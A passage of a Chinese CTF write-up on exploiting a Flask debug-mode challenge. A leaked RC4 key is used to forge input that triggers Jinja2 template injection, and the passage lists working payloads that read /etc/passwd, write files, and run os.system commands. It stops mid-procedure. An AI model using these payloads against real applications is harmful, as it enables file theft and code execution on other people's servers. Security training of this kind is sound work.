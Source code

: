 ![](https://p1.ssl.qhimg.com/t01316743c76f190c47.png)

做过flask开发的师傅们应该知道，这个页面是flask应用开启了debug模式后运行出错的表现，在较老版本的flask中可以直接在这个页面中打开python控制台运行代码，而在较新版本的flask中要打开python控制台需要输入一个pin码，像下面一样：

![](https://p1.ssl.qhimg.com/t013a17d8b3cc1034c6.png)

pin码会在服务器端运行flask应用时输出，其格式为“xxx-xxx-xxx”，其中x为任意一个数字，也就是说pin有10亿种组合。作为攻击者，我们目前是不知道pin码的，除非你有耐性进行爆破，实际上爆破也是可行的，因为在固定的机器上，pin码是固定的，但我今天当然不是来教大家爆破pin码的。我们先回到报错页面看看能发现什么，在一长串的报错信息，有一处特别引人瞩目：

![](https://p3.ssl.qhimg.com/t01f008850f7f3375fa.png)

从中可以判断两点：1是这个加密功能使用了RC4算法，并且秘钥为”HereIsTreasure”；2是使用了render_template_string，所以可能存在ssti。

首先我们来验证第一点：

对RC4稍有了解的同学应该知道,RC4是一种对称加密算法，那么对密文进行再次加密就可以得到原来的明文，我们刚刚提交secret=1是返回了d，那么如果我们提价secret=d是否也会返回1呢，通过验证，确实是这样：

![](https://p0.ssl.qhimg.com/t01adc9bd84de044cbd.png)

那么我们就可以任意伪造解密后的明文，借助工具cyberchef，结合第二点判断，我们伪造一个解密后明文为：”`{``{` config `}``}`”的密文，

![](https://p1.ssl.qhimg.com/t011b0c5c256a2b6aaa.png)

然后把密文提交到secret，反馈如下：

![](https://p1.ssl.qhimg.com/t01817eb74a1a319174.png)

简直是完美的ssti，到这里，题目基本做了一半，接下来有两条路，一是继续使用常规ssti思路；二是尝试获取pin码来打开python shell。起初我想走第二条路，但试了多次后算出的pin码都不成功，无奈之下只能先走常规ssti思路，即解法一。



## 解法1：常规ssti

我常用的python2 ssti的payload有以下这些：

1.读文件

``{``{` ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() `}``}``

2.写文件

``{``{` ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1','w').write("something")`}``}``

3.代码执行

``{``{` ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evalcode', 'w').write('evalcode') `}``}``<br>``{``{` config.from_pyfile('/tmp/evalcode') `}``}``

如果要获取一条命令的结果，需要分为下面三步：

第一步，写一个含恶意python代码的文件，比如：

``{``{` ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evalcode','w').write("import os;os.system('whoami &gt; /tmp/result');")`}``}``

第二步，执行这个文件，比如：
